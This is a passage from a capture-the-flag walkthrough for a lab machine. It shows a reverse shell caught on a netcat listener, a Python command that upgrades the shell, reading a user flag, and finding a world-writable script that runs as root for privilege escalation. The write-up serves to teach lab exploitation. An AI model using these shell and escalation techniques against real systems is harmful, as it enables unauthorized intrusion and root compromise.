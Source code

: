 Giving us a response on our nc listener:

```shell
listening on [any] 8443 ...
connect to [10.11.113.193] from (UNKNOWN) [10.10.121.49] 49000
whoami
tomcat
```

Now upgrade our shell:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@ubuntu:/$ 
```

### User Flag
Now we can get the user.txt flag:

```shell
cat /home/jack/user.txt
```
# Privilege Escalation
### id.sh bash script manipulation to get the content of root.txt flag
It seems like there is an interesting bash script on the directory of the user jack called id.sh:

```shell
cat id.sh

#!/bin/bash
id > test.txt
```

It seems to run the command id and put the contents into test.txt.

```shell
cat test.txt

uid=0(root) gid=0(root) groups=0(root)
```

Inside test.txt we can see that these are results of running the command id as root.

We can suppose that when we run id.sh, the content of id.sh gets executed as root and saved into test.txt.

It also seems like we also have permission to modify the content of the id.sh bash script:

```shell
ls -al

<SNIP>
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
<SNIP>

```
